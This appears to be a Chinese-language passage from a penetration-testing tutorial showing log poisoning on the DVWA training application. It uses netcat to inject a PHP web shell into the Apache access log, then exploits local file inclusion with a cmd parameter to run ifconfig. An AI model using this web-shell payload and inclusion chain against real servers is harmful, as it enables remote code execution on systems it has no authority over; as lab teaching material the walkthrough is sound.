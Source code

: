 如前面的截图所示，日志文件的内容显示在页面上。现在让我们继续尝试使用`netcat`毒害日志文件。首先，按以下方式启动 Netcat：`nc 192.168.1.102 80`。一旦启动，向服务器发送以下命令：`http://192.168.1.102/dvwa?id=<?php echo shell_exec($_GET['cmd']);?>`

![](img/d32a907e-459e-4a88-b7a9-14f67b5ce1d3.png)

中了！我们现在毒害了我们的日志文件。现在让我们尝试发出诸如`ifconfig`之类的命令，看看是否会被执行。我们将浏览的 URL 如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=ifconfig`。

注意`cmd`参数。我们发送`ifconfig`命令，该命令将由以下代码行调用：

`<?php echo shell_exec($_GET['cmd']);?>`，翻译为`<?php echo shell_exec(ifconfig)?>`

在下面的截图中突出显示的区域显示我们的命令已成功执行。

![](img/9735f03d-5ff3-45bc-9ccc-a0611ebbab1a.png)
